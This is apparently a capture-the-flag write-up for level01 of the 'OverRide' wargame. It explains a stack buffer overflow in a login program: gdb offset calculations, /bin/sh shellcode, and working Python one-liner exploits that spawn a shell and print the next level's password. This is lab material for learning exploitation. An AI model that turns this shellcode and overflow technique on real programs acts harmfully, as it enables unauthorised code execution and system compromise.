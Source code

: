 # level01

The program asks for an username and after a password.

By looking at the code, we can see that the `verify_user_name` function, compare our input, copied in a global variable <a_user_name>, with "dat_wil". The program exits if not true.

The `verify_user_pass` compare our input, copied in a local variable in main, with "admin". But even if the password is good or not, the program exits.

We first try to overwrite `eip`: we can see that the local buffer have a size of 68 bytes, and the 2nd `fgets` read 100 bytes. We can calculate the length between the beginning of the buffer and `eip`:

```gdb
(gdb) info frame
Stack level 0, frame at 0xffffd740:
 eip = 0x8048574 in main; saved eip 0xf7e45513
 Arglist at 0xffffd738, args: 
 Locals at 0xffffd738, Previous frame's sp is 0xffffd740
 Saved registers:
  ebx at 0xffffd730, ebp at 0xffffd738, edi at 0xffffd734, eip at 0xffffd73c
(gdb) p/d 0xffffd73c-0xffffd6ec
$13 = 80
```

Then we need an address to put our shellcode. It can be on the local buffer, before the `eip` address, or in the global variable <a_user_name>.

With global variable:

The address is hardcoded and have at least a length of 108 bytes minus 7 for "dat_wil":

```gdb
Breakpoint 1, 0x0804852d in main ()
(gdb) x/28wx 0x0804a040
0x804a040 <a_user_name>:        0x5f746164      0x0a6c6977      0x00000000      0x00000000
0x804a050 <a_user_name+16>:     0x00000000      0x00000000      0x00000000      0x00000000
0x804a060 <a_user_name+32>:     0x00000000      0x00000000      0x00000000      0x00000000
0x804a070 <a_user_name+48>:     0x00000000      0x00000000      0x00000000      0x00000000
0x804a080 <a_user_name+64>:     0x00000000      0x00000000      0x00000000      0x00000000
0x804a090 <a_user_name+80>:     0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a0 <a_user_name+96>:     0x00000000      0x00000000      0x00000000      0x00000000
(gdb) p/d 0x804a0a0+12 - 0x804a040
$1 = 108
(gdb) p/x 0x804a040 + 7
$5 = 0x804a047
```

Exploit the program:

```bash
level01@OverRide:~$ (python -c 'print "dat_wil" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "\x41" * 80 + "\x47\xa0\x04\x08"'; cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cd /home/users/level02
cat .pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

With local buffer:

Without the environment in `gdb`:

```gdb
(gdb) set exec-wrapper env -u LINES -u COLUMNS
(gdb) b *0x08048574
Breakpoint 1 at 0x8048574
(gdb) r
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil 
verifying username....

Enter Password: 

Breakpoint 1, 0x08048574 in main ()
(gdb) x $esp+0x1c
0xffffd69c:     0x00000000
```

Try to exploit:

```bash
level01@OverRide:~$ (python -c 'print "dat_wil"'; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x41" * (80 - 28) + "\x9c\xd6\xff\xff"'; cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
Segmentation fault (core dumped)
```

With environment in `gdb`:

```gdb
(gdb) b *0x08048574
Breakpoint 1 at 0x8048574
(gdb) r
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 

Breakpoint 1, 0x08048574 in main ()
(gdb) x $esp+0x1c
0xffffd68c:     0x00000000
```

Try to exploit:

```bash
level01@OverRide:~$ (python -c 'print "dat_wil"'; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x41" * (80 - 28) + "\x8c\xd6\xff\xff"';cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
Segmentation fault (core dumped)
```

We get the address with `ltrace` in a real environment:

```bash
level01@OverRide:~$ ltrace ./level01 
...
"admin\n", 100, 0xf7fcfac0)                          = 0xffffd6ac
```

Exploit the program:

```bash
level01@OverRide:~$ (python -c 'print "dat_wil"'; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x41" * (80 - 28) + "\xac\xd6\xff\xff"';cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
```
